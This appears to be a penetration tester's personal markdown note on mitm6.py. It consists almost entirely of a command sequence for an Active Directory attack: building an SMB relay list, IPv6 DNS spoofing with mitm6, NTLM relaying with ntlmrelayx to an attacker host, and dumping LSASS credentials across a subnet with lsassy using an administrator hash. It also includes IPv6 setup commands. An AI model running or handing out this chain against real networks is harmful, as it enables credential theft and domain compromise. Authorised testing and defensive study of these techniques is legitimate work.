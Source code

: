 ```yaml
---
creation date: November 29th 2021
last modified date: November 29th 2021
aliases: []
tags: #📖
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📖  

# [[mitm6.py]]  
---

## Get a Relay List 
```bash 
cme smb 1.1.1.1/24 --gen-relay-list relays.txt 

mitm6.py -i eth0 -d attacker.domain.local

ntlmrelayx.py -6 -wh $attacker_ip -of loot -tf relays.txt -smb2support

lsassy -d localhost -u administrator -H REDACTED 192.168.1.0/24 -o lsassyout.txt 

cat lsassyout.txt 
```

## Troubleshoot

### Enable IPv6 Link Local Address

```bash
sysctl -w net.ipv6.conf.eth0.disable_ipv6=0
ip -6 addr flush dev eth0 scope link
sysctl net.ipv6.conf.eth0.addr_gen_mode=0
sysctl net.ipv6.conf.eth0.addr_gen_mode=1
```
May also need to edit `/etc/sysctl.conf`
___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: November 29th 2021 (02:02 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
